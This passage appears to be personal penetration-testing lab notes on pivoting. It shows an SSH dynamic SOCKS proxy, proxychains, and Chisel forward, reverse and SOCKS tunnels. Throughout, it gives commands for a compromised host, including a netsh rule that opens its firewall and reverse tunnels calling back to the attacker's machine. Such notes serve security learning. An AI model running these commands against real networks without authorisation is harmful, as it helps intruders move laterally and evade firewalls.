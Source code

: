 - SOCKS proxy 
    - From Attacker machine to Compromised Machine for target machine
        - `ssh -i ssh_key root@10.200.141.200 -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa -D 1337 -C -N `

        - Example use
            - `curl --socks5 localhost:1337 http://10.200.141.150`
        
        - Use with Proxychains
            - `nano /etc/proxychains.conf` > `socks4  127.0.0.1 1337`
            - `proxychains curl http://10.200.141.150`


###### Chisel (SOCKS Proxy and Port Forwarding)

- Requirements
    - Chilsel Windows / Linux binary 
        - https://github.com/jpillora/chisel/releases

- Local Port Forwarding / Forward Port Forwarding
    - From Attacker Machine (chisel client) to Comproised machine (chisel server) for target machine
        - On the compromised target
            - If its windows machine we first need to open a port using `netsh` so that firewall dosen't block our connection
                - - `netsh advfirewall firewall add rule name="chisel-sam" dir=in action=allow protocol=tcp localport=8000`
                
                - Now start a chisel server in this port

            - `./chisel server -p LISTEN_PORT`
        - from our attacking machine
            - `./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`
        - For Example
            - For example, to connect to 172.16.0.5:8000 (the compromised host running a chisel server), forwarding our local port 2222 to 172.16.0.10:22 (our intended target), we could use:
            - `./chisel server -p 8000`
            - `./chisel client 172.16.0.5:8000 2222:172.16.0.10:22`

- Reverse Port Forwarding / Remote Port Forwarding
    - From Compromised machine (Chisel client) to attacker machine (chisel server) for target machine
        - On the atracker machine
            - ``./chisel server -p LISTEN_PORT --reverse &``
        - On the compromised target
            - `./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`
        - For Example
            - let's assume that our own IP is 172.16.0.20, the compromised server's IP is 172.16.0.5, and our target is port 22 on 172.16.0.10. The syntax for forwarding 172.16.0.10:22 back to port 2222 on our attacking machine would be as follows:
                - `./chisel server -p 1337 --reverse &`
                - `./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &`

- SOCKS Proxy

    - Reverse SOCKS proxy
        - from a compromised machine (client) attacking machine (server)
        - On our own attacking machine
            - `./chisel server -p LISTEN_PORT --reverse &`
        - On the compromised host
            - `./chisel client ATTACKING_IP:LISTEN_PORT R:socks &`
        - For Example
            - `./chisel server -p 1337 --reverse &`
            - `./chisel client 10.50.73.2:1337 R:socks &`
